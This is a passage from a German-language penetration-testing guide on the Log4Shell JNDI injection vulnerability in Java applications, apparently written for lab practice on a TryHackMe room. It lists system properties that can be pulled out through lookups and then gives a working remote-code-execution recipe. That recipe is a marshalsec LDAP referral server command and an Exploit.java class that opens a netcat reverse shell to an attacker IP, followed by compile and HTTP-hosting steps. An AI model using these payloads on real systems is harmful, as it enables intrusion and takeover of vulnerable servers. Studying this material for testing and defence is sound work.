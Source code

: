 ```
${sys:java.vm.specification.version}
${sys:java.vm.vendor}
${sys:java.vm.version}
${sys:line.separator}
${sys:os.arch}
${sys:os.name}
${sys:os.version}
${sys:path.separator}
${sys:user.dir}
${sys:user.home}
${sys:user.name}

Any other env variable name that could store sensitive information
```
### RCE Informationen

{% hint style="info" %}
Hosts, die auf JDK-Versionen über 6u141, 7u131 oder 8u121 laufen, sind gegen den LDAP-Klassenladeangriffsvektor geschützt. Dies liegt an der standardmäßigen Deaktivierung von `com.sun.jndi.ldap.object.trustURLCodebase`, die verhindert, dass JNDI eine Remote-Codebasis über LDAP lädt. Es ist jedoch wichtig zu beachten, dass diese Versionen **nicht gegen den Deserialisierungsangriffsvektor geschützt sind**.

Für Angreifer, die darauf abzielen, diese höheren JDK-Versionen auszunutzen, ist es notwendig, ein **vertrauenswürdiges Gadget** innerhalb der Java-Anwendung zu nutzen. Werkzeuge wie ysoserial oder JNDIExploit werden häufig zu diesem Zweck verwendet. Im Gegensatz dazu ist das Ausnutzen niedrigerer JDK-Versionen relativ einfacher, da diese Versionen manipuliert werden können, um beliebige Klassen zu laden und auszuführen.

Für **weitere Informationen** (_wie Einschränkungen bei RMI- und CORBA-Vektoren_) **überprüfen Sie den vorherigen Abschnitt zur JNDI-Namensreferenz** oder [https://jfrog.com/blog/log4shell-0-day-vulnerability-all-you-need-to-know/](https://jfrog.com/blog/log4shell-0-day-vulnerability-all-you-need-to-know/)
{% endhint %}

### RCE - Marshalsec mit benutzerdefiniertem Payload

Sie können dies in der **THM-Box** testen: [**https://tryhackme.com/room/solar**](https://tryhackme.com/room/solar)

Verwenden Sie das Tool [**marshalsec**](https://github.com/mbechler/marshalsec) (Jar-Version verfügbar [**hier**](https://github.com/RandomRobbieBF/marshalsec-jar)). Dieser Ansatz richtet einen LDAP-Referenzserver ein, um Verbindungen an einen sekundären HTTP-Server umzuleiten, auf dem der Exploit gehostet wird:
```bash
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://<your_ip_http_server>:8000/#Exploit"
```
Um das Ziel dazu zu bringen, einen Reverse-Shell-Code zu laden, erstellen Sie eine Java-Datei mit dem Namen `Exploit.java` mit dem folgenden Inhalt:
```java
public class Exploit {
static {
try {
java.lang.Runtime.getRuntime().exec("nc -e /bin/bash YOUR.ATTACKER.IP.ADDRESS 9999");
} catch (Exception e) {
e.printStackTrace();
}
}
}
```
Kompilieren Sie die Java-Datei in eine Klassendatei mit: `javac Exploit.java -source 8 -target 8`. Starten Sie dann einen **HTTP-Server** im Verzeichnis, das die Klassendatei enthält, mit: `python3 -m http.server`. Stellen Sie sicher, dass der **marshalsec LDAP-Server** auf diesen HTTP-Server verweist.